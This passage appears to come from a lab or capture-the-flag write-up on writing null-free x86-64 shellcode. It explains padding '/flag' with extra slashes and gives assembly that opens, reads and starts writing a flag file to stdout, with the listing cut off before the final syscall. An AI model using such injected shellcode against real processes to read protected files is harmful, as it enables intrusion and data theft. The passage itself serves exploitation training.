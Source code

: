 are not allowed either.

---

## 🧠 Strategy & Thought Process

### 🔸 Step 1: Understand the problem

**Why do we normally need a null terminator?**

Because the `open()` syscall expects a **C-style string** — i.e., a pointer to a null-terminated string like `"/flag\0"`. Without the `\0`, it might read extra junk or fail.

But we **can’t inject a null byte** in our shellcode directly.

---

### 🔸 Step 2: Look for ways to trick the system

Here comes the clever part:

> In **Unix filesystems**, it is perfectly legal to open `"////flag"` — it's treated **exactly the same** as `"/flag"`.

### ✅ Insight:

> So instead of trying to null-terminate `"/flag"`, we can pad it with extra slashes `"////"` to fill 8 bytes (64 bits) — giving us a full word to push **without any null bytes**.

This eliminates the need to push a null terminator at all.

---

## ✅ Final Shellcode (null-free)

```nasm
section .text
global _start

_start:
    xor     rax, rax                         ; Clear RAX to prepare for syscalls
    push    rax                              ; Stack alignment (and later buffer use)
    
    ; Push the string "////flag" (reversed due to little-endian)
    mov     rbx, 0x67616c662f2f2f2f          ; "////flag"
    push    rbx
    mov     rdi, rsp                         ; rdi -> pointer to "/flag"

    ; Open syscall
    mov     al, 2                            ; syscall number for open()
    xor     rsi, rsi                         ; flags = 0 (O_RDONLY)
    xor     rdx, rdx                         ; mode = 0 (not used in O_RDONLY)
    syscall                                  ; open("/flag", 0, 0)

    ; Read syscall
    mov     rdi, rax                         ; rdi = file descriptor from open()
    mov     rsi, rsp                         ; rsi = buffer on stack
    mov     dl, 0x40                         ; rdx = number of bytes to read (64)
    xor     eax, eax                         ; syscall number for read (0)
    syscall

    ; Write syscall
    xor     edi, edi                         ; edi = 0
    inc     edi                              ; edi = 1 (stdout)
    xor     eax, eax                         ; eax = 0
    inc     eax                              ; eax = 1 (syscall number for write)
```